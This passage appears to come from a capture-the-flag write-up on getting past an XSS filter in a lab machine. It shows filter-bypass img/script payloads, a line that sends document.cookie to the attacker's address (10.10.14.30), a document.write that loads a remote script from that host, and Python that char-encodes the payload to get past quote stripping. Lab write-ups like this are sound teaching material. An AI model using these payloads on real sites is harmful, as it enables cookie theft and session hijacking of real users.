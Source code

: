 ![](/img/1567625919678.png)

I started submitting more payloads from various XSS cheat sheets around
the internet, and eventually (after a *ton* of trial and error) found
this one:



    <img src="x` `<script>javascript:alert(1)</script>"` `>



It gets a bit mangled, but the script tags come through:

![](/img/1567627223012.png)

It seems to remove the quotes, but then not mess with the brackets that
are between the quotes.

I tried to use `<img src="x`
`<script>document.location='http://10.10.14.30/?c='+document.cookie</script>"`
`>` to get cookies, but it didn't work. I noticed in the output that the
`'` were all removed:

![](/img/1567628085273.png)

I'll try javascript that writes a script tag that is sourced back to me:



    <img src="x` `<script>document.write('<script src="http://10.10.14.30/0xdf.js"></script>');</script>"` `>`



Again, no love.

I'll try encoding the inside. First I'll use `python` to convert it to
ints:



    >>> payload = '''document.write('<script src="http://10.10.14.30/0xdf.js"></script>');'''
    >>> ','.join([str(ord(c)) for c in payload])
    '100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,51,48,47,48,120,100,102,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59'

